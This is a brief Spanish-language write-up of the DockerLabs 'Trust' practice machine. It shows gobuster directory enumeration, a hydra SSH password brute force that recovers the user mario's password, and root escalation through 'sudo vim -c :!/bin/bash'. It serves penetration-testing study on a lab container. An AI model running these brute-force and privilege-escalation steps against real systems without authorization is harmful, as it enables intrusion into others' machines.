

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/dockerlabs/trust/index.html · generator: mkdocs

# Trust

Discovery de la web
`❯ gobuster dir -u http://172.19.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 30 -x html,php`
*-u* > url
*-w* > wordlist
*-t* > threads, es decir hilos concurrentes, + hilos + rápido + consumo
*-x* > extensiones .x sobre las que probará (php,html. )
Encontramos un *secret.php*
Al abrir el dominio http://172.19.0.2/secret.php vemos que el usuario es **mario**

`hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.19.0.2
**chocolate**

## Escalada

`sudo -l`
*(ALL) /usr/bin/vim*

`sudo vim -c ':!/bin/bash'
root
